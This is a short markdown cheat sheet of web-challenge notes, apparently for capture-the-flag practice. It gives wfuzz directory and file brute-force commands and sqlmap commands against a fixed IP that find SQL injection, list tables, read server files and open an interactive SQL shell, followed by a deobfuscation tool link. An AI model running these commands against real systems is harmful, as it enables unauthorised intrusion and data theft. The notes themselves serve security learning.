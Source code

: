 # Web Challanges

## Information Gathering

### scan for dirs
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/FUZZ

### scan for files
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/administrat/include/FUZZ.php

## SQL Exploits

### sqlmap

#### scan for SQL vulnerabilities
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1

#### list tables
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --tables                                                

#### file structure, e.g. apache
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --common-files 

#### read file
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --read-files=/var/www/html/mail/contact_me.php

#### interactive SQL shell
    # DB freelance
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 -D freelancer --sql-shell

## Deobfuscation

[ JStillery ]( https://en.kali.tools/?p=1354 )

